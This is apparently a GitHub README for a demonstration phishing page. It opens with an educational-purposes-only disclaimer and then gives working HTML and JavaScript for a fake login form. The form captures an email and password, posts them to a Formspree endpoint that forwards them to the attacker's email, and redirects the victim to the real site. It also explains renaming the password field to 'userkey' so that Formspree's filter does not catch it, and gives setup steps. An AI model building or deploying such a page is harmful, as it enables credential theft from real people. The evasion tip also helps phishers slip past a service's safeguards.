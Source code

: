 # **Phishy_Website**

**THIS DEMONSTRATION IS STRICTLY INTENDED FOR EDUCATIONAL PURPOSES ONLY. THE USE OF THIS TECHNIQUE FOR MALICIOUS PURPOSES IS ILLEGAL AND UNETHICAL.**

## Overview 

Phishing is a form of cyber attack where an attacker impersonates a legitimate entity or website to trick individuals into providing sensitive information, such as login credentials or personal details. This demonstration simulates a basic phishing scenario in which user input is captured through a malicious form.

This implementation utilizes [Formspree](https://www.formspree.io), a form-handling service that collects submitted form data and sends it to the attacker’s email. While this demonstration is intentionally simple, attackers typically create more sophisticated and convincing websites that mimic legitimate services.

## How it works

### What the victim sees

The page collects input from the user, in this case an email and password. 

```
<form id="phishy-form" action="https://formspree.io/f/{form_id}" method="POST">

  <label>Email:</label>
  <input type="email" name="email" required />

  <label>Password:</label>
  <input type="text" name="userkey" required />

  <button id="my-form-button">Submit</button>
</form>
```

Notice the `name` attribute in the password input is assigned the value `userkey`. This is because Formspree will detect and block suspicious valuse like `password`.

### Behind the scenes

When the user submits the form, the data is sent to Formspree, where it is forwarded to the attacker’s designated email address. After the form is submitted, the victim is redirected to the website they presumably think they are logging into.

```
document
    .getElementById("phishy-form")
    .addEventListener("submit", async function (e) {
      e.preventDefault();
      let formData = new FormData(this);

      let response = await fetch("https://formspree.io/f/{form_id}", {
        method: "POST",
        body: formData,
        headers: { Accept: "application/json" },
      });

      if (response.ok) {
        window.location.href = "https://www.example.com/";
      } 
    });
```

### Setup

1. Visit [Formspree](https://www.formspree.io) and create a new form endpoint. You will be provided with a unique URL that will receive the form submissions.

2. In the provided [HTML code](index.html), replace `<your formspree url>` with the Formspree URL you received. 

### Try it

Save the HTML file and run it locally on your machine. Enter some random info into form (e.g., me@example.com & password123), and click "Submit." Check the email associated with your Formspree account; you should see the data you submitted.